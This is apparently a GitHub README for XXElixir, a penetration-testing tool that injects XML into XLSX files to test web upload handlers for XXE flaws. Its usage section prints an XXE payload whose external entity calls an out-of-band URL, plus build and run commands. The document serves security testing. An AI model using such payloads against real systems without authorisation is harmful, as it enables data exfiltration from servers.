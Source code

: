 # XXElixir 🧪
This tool is designed to test for file upload and XXE (XML External Entity) vulnerabilities by poisoning an XLSX file. It allows the user to inject custom XML content or specify an out-of-band URL to retrieve data from an external entity. The tool works by unzipping the input XLSX file, modifying the workbook.xml file to include the user-specified XML content or URL, and then zipping the modified directory back into a new XLSX file. The resulting file can be used to test for file upload and XXE vulnerabilities in web applications that accept XLSX files.


## Usage 🛠 

Poison .XLSX file ☣️
```
python3 --file test.xlsx --xxe "<\!DOCTYPE ShiftSecurityConsulting [ <\!ENTITY xxe SYSTEM 'http://out-of-band.url'> ]>" --output poisoned.xlsx
```
```
python3 --file test.xlsx --url https://shiftsecurityconsulting.com --output poisoned.xlsx
```

## Running from Docker 🐳

Build
```
docker build -t xxelixir .
```

Run
```
docker run -v $(pwd)/data:/data -ti xxelixir -f data/test.xlsx -u https://shiftsecurityconsulting.com -o /data/poisoned.xlsx
```


## Parameters 🧰 

Parameter | Description | Type
------------ | ------------- | -------------
--url / -u | The URL for out of band testing | String
--file / -f | Input XLSX file | File
--output / -o | Output file | File
--xxe |Custom XXE injection string | String

## Contact Me 📇

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[Shift Security Consulting - Secure Your Digital Future](https://shiftsecurityconsulting.com)

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

#### Educational purposes only and cannot be used for law violation or personal gain.
#### The author of this project is not responsible for any possible harm caused by the materials of this project.
